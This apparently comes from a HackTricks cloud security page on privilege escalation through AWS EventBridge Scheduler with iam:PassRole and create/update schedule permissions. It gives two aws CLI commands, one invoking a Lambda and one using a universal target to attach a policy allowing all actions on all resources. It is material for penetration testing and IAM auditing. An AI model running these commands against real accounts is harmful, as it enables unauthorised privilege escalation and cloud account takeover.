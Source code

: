 # AWS - EventBridge Scheduler Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EventBridge Scheduler

More info EventBridge Scheduler in:

{{#ref}}
../aws-services/eventbridgescheduler-enum.md
{{#endref}}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

An attacker with those permissions will be able to **`create`|`update` an scheduler and abuse the permissions of the scheduler role** attached to it to perform any action

For example, they could configure the schedule to **invoke a Lambda function** which is a templated action:

```bash
aws scheduler create-schedule \
    --name MyLambdaSchedule \
    --schedule-expression "rate(5 minutes)" \
    --flexible-time-window "Mode=OFF" \
    --target '{
        "Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
        "RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
    }'
```

In addition to templated service actions, you can use **universal targets** in EventBridge Scheduler to invoke a wide range of API operations for many AWS services. Universal targets offer flexibility to invoke almost any API. One example can be using universal targets adding "**AdminAccessPolicy**", using a role that has "**putRolePolicy**" policy:

```bash
aws scheduler create-schedule \
    --name GrantAdminToTargetRoleSchedule \
    --schedule-expression "rate(5 minutes)" \
    --flexible-time-window "Mode=OFF" \
    --target '{
        "Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
        "RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
        "Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
    }'
```

## References

- [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
- [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{{#include ../../../banners/hacktricks-training.md}}




